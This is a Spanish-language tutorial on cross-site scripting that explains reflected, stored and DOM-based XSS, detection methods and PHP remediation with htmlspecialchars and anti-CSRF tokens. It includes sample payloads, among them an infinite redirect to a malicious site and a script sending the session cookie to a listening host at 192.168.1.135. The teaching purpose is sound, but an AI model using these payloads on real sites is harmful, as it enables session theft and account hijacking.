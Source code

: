 # xss

# XSS

(Cross-Site Scripting)

## ¿Que es el XSS?

Cross-site scripting (también conocido como XSS) es una vulnerabilidad común de la seguridad web que permite a un atacante inyectar código malicioso en una página web.

## ¿Cómo funciona XSS?

---

El Cross-site scripting funcionan mediante la manipulación de un sitio web vulnerable para que devuelva JavaScript malicioso a los usuarios. Cuando el código malicioso se ejecuta dentro del navegador de la víctima, el atacante puede comprometer completamente su interacción con la aplicación.

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled.png)

## ****¿Cuáles son los tipos de ataques XSS?****

### XSS Reflected

---

tipo de vulnerabilidad web que ocurre cuando un atacante inyecta código malicioso en una página web que luego es reflejado de vuelta al usuario a través de un error de validación en la entrada de datos. Esto significa que el código malicioso se ejecuta en el navegador del usuario en lugar de en el servidor web.

Aqui podemos ver un ejemplo de XSS que con un alert nos saque la cookie de sesión

```bash
<script>
    alert(document.cookie);
</script>
```

### XSS Stored

---

Es un tipo de vulnerabilidad web que permite a un atacante inyectar código malicioso en una página web que luego se almacena en una base de datos o en el almacenamiento local del navegador del usuario. Este tipo de vulnerabilidad es más peligroso que el XSS Reflected, ya que el código malicioso se ejecuta en todos los navegadores que acceden a la página web y no solo en el navegador del usuario que realizó la acción.

este en si lo que se encarga es de hacer una continua redirección a un sitio malicioso y llegando a afectar a la disponibilidad.

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesión a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.

```bash
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```

### XSS DOM

---

El XSS (Cross-Site Scripting) basado en el DOM (Document Object Model) es un tipo de ataque XSS que aprovecha las vulnerabilidades en la forma en que el navegador web procesa y renderiza el código HTML y JavaScript. En este tipo de ataque, el código malicioso se inyecta en una página web a través de una entrada de usuario no validada, como un formulario de entrada de datos, y luego se ejecuta en el navegador de la víctima cuando se carga la página.

```bash
<script>
var mensaje = document.createElement('h2');
mensaje.innerHTML = '¡Hola desde un ataque XSS basado en el DOM!';
document.body.appendChild(mensaje);
</script>
```

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%201.png)

## Formas de detectar vulnerabilidades XSS

Existen multitud de formas para detectar vulnerabilidades XSS en una aplicación web como por ejemplo.

Escaneo automático: existen herramientas de escaneo automático de vulnerabilidades que pueden ayudar a detectar vulnerabilidades XSS. Estas herramientas realizan pruebas automatizadas de inyección de código en los formularios y campos de entrada de la aplicación, y pueden informar sobre las vulnerabilidades detectadas.

Análisis de código fuente: otra forma de detectar vulnerabilidades XSS es mediante el análisis del código fuente de la aplicación. Algunas herramientas de análisis estático de código pueden identificar patrones y fragmentos de código que son propensos a vulnerabilidades XSS.

Pruebas de penetración: las pruebas de penetración son un enfoque más exhaustivo para detectar vulnerabilidades XSS. Los expertos en seguridad pueden realizar pruebas de penetración para simular ataques XSS reales en la aplicación y determinar su nivel de riesgo.

etc.

Es importante recordar que la detección de vulnerabilidades XSS es solo una parte de un programa de seguridad completo. También es importante tomar medidas para remediar las vulnerabilidades detectadas y establecer políticas y procedimientos de seguridad adecuados para prevenir futuros ataques XSS.

## formas de securizar estos errores.

---

## XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%202.png)

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro “name” es almacenado en una variable llamada “$name” y se utiliza la función “htmlspecialchars” para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro “name” para el usuario.

También hay una función llamada “generateSessionToken” que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

## XSS stored

![Untitled](xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%203.png)

Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón “btnSign” es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF. Recupera el valor de los campos de entrada del formulario, “mtxMessage” y “txtName”. Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario. Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.